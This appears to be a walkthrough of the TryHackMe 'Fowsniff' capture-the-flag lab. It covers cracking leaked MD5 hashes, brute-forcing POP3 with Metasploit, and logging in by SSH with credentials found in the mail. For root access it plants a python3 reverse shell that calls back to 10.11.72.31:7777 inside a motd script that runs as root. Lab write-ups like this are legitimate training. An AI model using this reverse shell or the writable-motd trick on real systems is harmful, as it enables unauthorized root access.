










fowsniff ctf
THM: Fowsniff CTF
This is a guided CTF, thus I will follow THM guidlines.
Enumeration
Rustscan & Nmap

Open Ports: 22,80,110,143
Website Enumeration

The organization is claiming that the employee data was leaked and may be available at twitter handle.
Google Search
Upon searching google for Fowsniff Corp, we get a twitter page which is hacked

Lets open the pastebin link.
https://pastebin.com/NrAqVeeX
\
In this page we find the following user hashes and also discovered that the hashes are MD5.
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
We decode them all at https://hashes.com/en/decrypt/hash

All hashes were cracked exclusing one. I will try to crack it using hashcat
Note: it can also be decoded using hashcat.
Hashcat couldn't crack the leftout one using rockyou.txt
For demo: I tried hashcat -m 0 19f5af754c31f1e2651edde9250d69bb /usr/share/wordlists/rockyou.txt
As expected we got the password as: skyler22

Next, as per THM hint, we will use metasploit to bruteforce the pop3 (mail) service. [Expecting to find certain users who have't changed their password]
Note: We can use hydra to bruteforce pop3, however hydra uses cluster-bomb method by default. (All usernames checked with all passwords)
However, we ideally need pitchfork style of bruteforce where we use particular username & password combinations only.
Metasploit
Note: After running i discovered that metasploit will also use cluster-bomb unless we use USERPASS_FILE.
To use this we need to set USER_FILE & PASS_FILE to a dummy blank file.
By Default: The scanner used has a default user and password file. (We need to replace it with dummy blank file)
I created a blank file test.txt
We use auxiliary/scanner/pop3/pop3_login as per the hint.
I collected the usernames and passwords and created a userpass.txt

Following options are added:

Note: The file test.txt is blank. It's used to force use the USERPASS_FILE to have pitchfork bruteforce
Now, we run it.

POP3 Credentials Found:
Username: seina
Password: scoobydoo2
Mail Enumeration

We found 2 Emails. We read it using RETR 1,2.
The first mail has SSH credentais.
The second mail's sender is the user. (As per THM hint)

SSH Credentials Found
Username: backsteen
Password: S1ck3nBluff+secureshell
Foothold
Lets SSH into the machine with the above credentials.

Note: The user is a member of group users
Lets see what files belong to that group
find / -type f -group users -exec ls -l {} \+ 2>/dev/null

We have an intresting file cube.sh and its writable by group users
Lets view it.

It looks like the welcome message we get when we login.
However, we need to see how this file is getting used during the SSH Login process.
For that we check the THM Hint: Look at the file /etc/update-motd.d/ folder.
In the folder, we found a 00-header file which belongs to root and is called everytime a SSH Login is made.
Luckily the cube.sh file is being called in the file at the bottom.

As we have write permission on cube.sh, we will include a python reverse shell in the script and when we login again it will be called.
1. Edit the cube.sh file & add the python reverse shell code
2. Start the netcat listener
3. Exit from SSH and login again.
4. We should have the root connection in the listner.
Python Reverse Shell Code:
#!/bin/bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.72.31",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
Final cube.sh:

Start Netcat Listener and Relogin into SSH. We should have the root connection.

Thus, we have full root access.
Thanks!!